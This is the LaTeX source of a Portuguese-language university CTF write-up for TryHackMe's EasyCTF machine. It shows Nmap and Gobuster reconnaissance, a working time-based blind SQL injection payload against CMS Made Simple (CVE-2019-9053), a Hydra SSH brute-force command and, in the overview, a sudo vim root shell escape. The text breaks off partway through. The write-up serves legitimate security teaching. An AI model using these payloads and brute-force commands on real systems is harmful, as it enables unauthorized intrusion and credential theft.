%==============================================================================
% Write-Up de CTF - EasyCTF (TryHackMe)
% Materia : CIC0087 - Topicos Avancados em Computadores - Turma 04 - 2026/2
% Depto.  : Departamento de Ciencias da Computacao
% Baseado na "Metodologia para Construcao de Write-Ups em CTF"
%
% Compilacao:  pdflatex main.tex   (rodar 2x para atualizar o Sumario)
%==============================================================================
\documentclass[12pt,a4paper]{article}

%------------------------- Codificacao e idioma -------------------------------
\usepackage[utf8]{inputenc}
\usepackage[T1]{fontenc}
\usepackage[brazil]{babel}

%------------------------- Fonte Times New Roman ------------------------------
\usepackage{newtxtext}   % corpo em Times
\usepackage{newtxmath}   % matematica em Times

%------------------------- Margens (minimo 2 cm) ------------------------------
\usepackage[a4paper,margin=2cm,headheight=15pt,includehead,includefoot]{geometry}

%------------------------- Utilitarios ----------------------------------------
\usepackage{graphicx}
\graphicspath{{img/}{./img/}}
\usepackage{xcolor}
\usepackage{float}
\usepackage[hidelinks]{hyperref}
\usepackage{fancyhdr}
\usepackage{listings}
\usepackage[most]{tcolorbox}
\usepackage{caption}
\usepackage{enumitem}
\usepackage{setspace}

\hypersetup{
  colorlinks=true,
  linkcolor=black,
  urlcolor=blue!60!black,
  citecolor=black
}
\onehalfspacing

%============================= METADADOS =======================================
\newcommand{\desafioNome}{EasyCTF}
\newcommand{\plataforma}{TryHackMe}
\newcommand{\dificuldade}{Fácil}
\newcommand{\dataResolucao}{28/10/2026}
\newcommand{\autorNome}{Luís Eduardo Curi Serra}

% Dados academicos (fixos para a disciplina)
\newcommand{\materia}{CIC0087 -- Tópicos Avançados em Computadores -- Turma 04 -- 2026/2}
\newcommand{\departamento}{Departamento de Ciências da Computação}
\newcommand{\matricula}{251033574}
\newcommand{\professor}{Roberto Rodrigues Filho}
\newcommand{\universidade}{Universidade de Brasília}
%===============================================================================

%------------------------- Cabecalho e rodape ---------------------------------
\pagestyle{fancy}
\fancyhf{}
\lhead{\small\itshape \desafioNome}
\rhead{\small\itshape \autorNome}
\lfoot{\small \materia}
\rfoot{\small Página \thepage}
\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}

%------------------------- Estilo dos blocos de codigo ------------------------
\definecolor{codebg}{gray}{0.95}
\definecolor{codeframe}{gray}{0.75}
\definecolor{cmt}{RGB}{100,120,100}
\definecolor{kw}{RGB}{0,0,150}
\definecolor{str}{RGB}{150,50,50}

\lstdefinestyle{shell}{
  backgroundcolor=\color{codebg},
  basicstyle=\ttfamily\small,
  keywordstyle=\color{kw}\bfseries,
  commentstyle=\color{cmt}\itshape,
  stringstyle=\color{str},
  frame=single,
  rulecolor=\color{codeframe},
  breaklines=true,
  breakatwhitespace=false,
  postbreak=\mbox{\textcolor{codeframe}{$\hookrightarrow$}\space},
  columns=fullflexible,
  keepspaces=true,
  showstringspaces=false,
  tabsize=2,
  captionpos=b,
  xleftmargin=0.4em,
  xrightmargin=0.4em,
  aboveskip=1em,
  belowskip=1em,
}
\lstset{style=shell}

% Atalho: comando de terminal em linha
\newcommand{\cmd}[1]{\lstinline[style=shell]|#1|}

% Ambiente para OUTPUT (fundo levemente diferente, fonte menor)
\lstdefinestyle{output}{
  style=shell,
  backgroundcolor=\color{gray!8},
  basicstyle=\ttfamily\footnotesize,
  keywordstyle=\ttfamily,
}

%------------ Caixa de "becos sem saida" (tentativas sem sucesso) --------------
\definecolor{deadendbg}{RGB}{255,248,240}
\definecolor{deadendframe}{RGB}{193,108,44}
\newtcolorbox{becosemsaida}[1][Tentativas sem sucesso (becos sem saída)]{%
  enhanced, breakable,
  colback=deadendbg, colframe=deadendframe,
  colbacktitle=deadendframe, coltitle=white,
  boxrule=0.6pt, arc=2pt,
  left=8pt, right=8pt, top=6pt, bottom=6pt,
  fonttitle=\bfseries\small,
  title={#1}%
}

%===============================================================================
\begin{document}

%============================= 2.1 CAPA =========================================
\begin{titlepage}
  \thispagestyle{empty}
  \centering
  {\scshape \universidade \par}
  {\scshape \departamento \par}
  \vspace{0.4cm}
  {\small \materia \par}
  \vspace{2.5cm}

  \rule{\linewidth}{0.4pt}\par
  \vspace{0.6cm}
  {\huge \bfseries Write-Up: \desafioNome \par}
  \vspace{0.4cm}
  {\large Segurança Ofensiva --- Capture The Flag \par}
  \vspace{0.6cm}
  \rule{\linewidth}{0.4pt}\par

  \vspace{2.0cm}
  \begin{tabular}{rl}
    \textbf{Plataforma:}       & \plataforma       \\[4pt]
    \textbf{Dificuldade:}      & \dificuldade      \\[4pt]
    \textbf{Data de resolução:}& \dataResolucao    \\
  \end{tabular}

  \vfill

  \begin{tabular}{rl}
    \textbf{Autor:}     & \autorNome  \\[4pt]
    \textbf{Matrícula:} & \matricula  \\[4pt]
    \textbf{Professor:} & \professor  \\
  \end{tabular}

  \vspace{1.2cm}
  {\small \today \par}
\end{titlepage}

%============================= 2.2 SUMARIO ======================================
\newpage
\tableofcontents
\thispagestyle{fancy}
\newpage

%============================= 2.3 VISAO GERAL ==================================
\section{Visão Geral}
\textbf{EasyCTF} é uma máquina Linux de dificuldade \emph{fácil}. A varredura
revela três serviços: \textbf{FTP (21)}, \textbf{HTTP (80)} e \textbf{SSH em
porta alta (2222)}. O servidor web (Apache 2.4.18) hospeda, em \texttt{/simple},
o \textbf{CMS Made Simple}, cuja versão é vulnerável a \textbf{injeção de SQL
cega baseada em tempo} no módulo \emph{News} (\textbf{CVE-2019-9053}, parâmetro
\texttt{m1\_idlist}, sem autenticação). Reconstrói-se o nome de usuário
(\texttt{mitch}) caractere a caractere via SQLi temporal; a senha do SSH é obtida
por \textbf{força bruta} com Hydra. Com acesso SSH como \texttt{mitch} coleta-se
a \emph{flag} de usuário. A escalada é trivial: \cmd{sudo -l} mostra que
\texttt{mitch} pode executar \texttt{/usr/bin/vim} como \texttt{root} sem senha;
um \emph{shell escape} (\texttt{:shell} no \texttt{vim}, GTFOBins) entrega
\texttt{root}. Fluxo geral: reconhecimento (Nmap + Gobuster) $\rightarrow$ CMS
Made Simple $\rightarrow$ SQLi (usuário) $\rightarrow$ Hydra (senha)
$\rightarrow$ SSH $\rightarrow$ \texttt{sudo vim} $\rightarrow$ \texttt{root}.

%============================= 2.4 RECONHECIMENTO ===============================
\section{Reconhecimento}

\subsection{Varredura de portas}
\begin{lstlisting}[language=bash,caption={Varredura inicial de portas com Nmap.}]
nmap -T4 <TARGET_IP>
\end{lstlisting}

A varredura retorna três portas abertas. Abaixo da porta 1000 há
\textbf{dois serviços} (FTP e HTTP); o serviço na \textbf{porta mais alta}
(2222) é identificado como SSH. O rótulo \texttt{EtherNetIP-1} é apenas o palpite
genérico do Nmap para a porta 2222, desfeito na varredura de versão.

\begin{lstlisting}[style=output,caption={Portas abertas retornadas pela varredura.}]
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
\end{lstlisting}

\begin{lstlisting}[language=bash,caption={Confirmacao de versao/servico na porta alta.}]
nmap -sV -sC -p2222 <TARGET_IP>
\end{lstlisting}

\begin{lstlisting}[style=output,caption={Porta 2222 confirmada como SSH.}]
2222/tcp open  ssh  OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
\end{lstlisting}

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{nmap.png}
  \caption{Varreduras Nmap: três portas abertas (21/80/2222); a porta 2222 é
  confirmada como \texttt{OpenSSH 7.2p2} na detecção de versão.}
  \label{fig:nmap}
\end{figure}

\subsection{Enumeração web}
A detecção de serviço na porta 80 aponta \textbf{Apache 2.4.18} e um
\texttt{robots.txt} com entradas \emph{disallow} (incluindo
\texttt{/openemr-5\_0\_1\_3}). O Gobuster encontra o diretório \texttt{/simple}.

\begin{lstlisting}[language=bash,caption={Enumeração de diretórios com Gobuster.}]
gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html
\end{lstlisting}

\begin{lstlisting}[style=output,caption={Achados relevantes do Gobuster.}]
index.html    (Status: 200)
robots.txt    (Status: 200)
simple        (Status: 301)  [--> /simple/]
\end{lstlisting}

Em \texttt{/simple} roda o \textbf{CMS Made Simple}. Conforme a dica da sala, a
versão exposta é vulnerável a acesso não autorizado via \textbf{injeção de SQL}
--- \textbf{CVE-2019-9053}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{goobuster.png}
  \caption{Enumeração web com Gobuster revelando \texttt{/simple}, onde roda o
  CMS Made Simple.}
  \label{fig:gobuster}
\end{figure}

%============================= 2.5 EXPLORACAO ===================================
\section{Exploração}

\subsection{Identificação da vulnerabilidade}
O CMS Made Simple instalado é vulnerável à \textbf{CVE-2019-9053}: uma
\textbf{injeção de SQL cega baseada em tempo}, sem autenticação, no módulo
\emph{News}, através do parâmetro \texttt{m1\_idlist} do endpoint
\texttt{moduleinterface.php}. O tipo de vulnerabilidade é, portanto,
\textbf{SQLi}.

\subsection{Extração do usuário via SQLi temporal}
Como a resposta HTTP não exibe o resultado da consulta, usa-se a técnica
\emph{time-based}: a consulta condiciona um \cmd{sleep(3)} ao acerto de cada
caractere, medindo-se o tempo de resposta. No \emph{payload} abaixo,
\texttt{0x6d2525} é o hexadecimal de \texttt{m\%\%} (um \texttt{LIKE} que casa
nomes iniciados em ``m'') e \texttt{0x31} é o \texttt{user\_id} \texttt{1}.

\begin{lstlisting}[language=bash,caption={Payload de SQLi temporal e medição com curl.}]
PAYLOAD="a,b,1,5))+and+(select+sleep(3)+from+cms_users+where+username+like+0x6d2525+and+user_id+like+0x31)+--+"
URL="http://<TARGET_IP>/simple/moduleinterface.php?mact=News,m1_,default,0&m1_idlist=${PAYLOAD}"
time curl -s -o /dev/null "$URL"
\end{lstlisting}

O tempo de resposta de \textbf{$\approx$3,46\,s} confirma o acerto. Repetindo
posição a posição, reconstrói-se o nome de usuário \texttt{mitch}.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.95\linewidth]{sqli_hydra_ssh.png}
  \caption{SQLi temporal confirmando o usuário (\texttt{real 3.46s}); força bruta
  do SSH com Hydra e autenticação como \texttt{mitch} na porta 2222.}
  \label{fig:sqli_hydra_ssh}
\end{figure}

\subsection{Força bruta do SSH e flag de usuário}
Com o usuário conhecido, a senha do SSH é obtida por \textbf{força bruta} com
Hydra contra a porta 2222, usando a \emph{wordlist} \emph{rockyou}.

\begin{lstlisting}[language=bash,caption={Força bruta do SSH com Hydra.}]
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://<TARGET_IP>
# [2222][ssh] host: <TARGET_IP>   login: mitch   password: <PASSWORD>
\end{lstlisting}

\begin{becosemsaida}
\begin{itemize}[leftmargin=1.4em,itemsep=2pt,topsep=2pt]
  \item Primeira execução do Hydra anexando a porta ao alvo
        (\cmd{ssh://<TARGET_IP> 2222}): \emph{Invalid target definition}. A porta
        deve ir em \cmd{-s 2222}.
  \item \cmd{ssh -P 2222 mitch@<TARGET_IP>} falha: a opção de porta do
        \texttt{ssh} é \textbf{minúscula} (\cmd{-p}).
\end{itemize}
\end{becosemsaida}

Autenticado via SSH (\cmd{ssh -p 2222 mitch@<TARGET_IP>}), o sistema é um Ubuntu
16.04 e a \emph{flag} de usuário está no \emph{home}.

\begin{lstlisting}[language=bash,caption={Leitura da flag de usuário.}]
cat user.txt   # -> <FLAG>  (frase de conclusao, nao um hash)
\end{lstlisting}

\begin{figure}[H]
  \centering
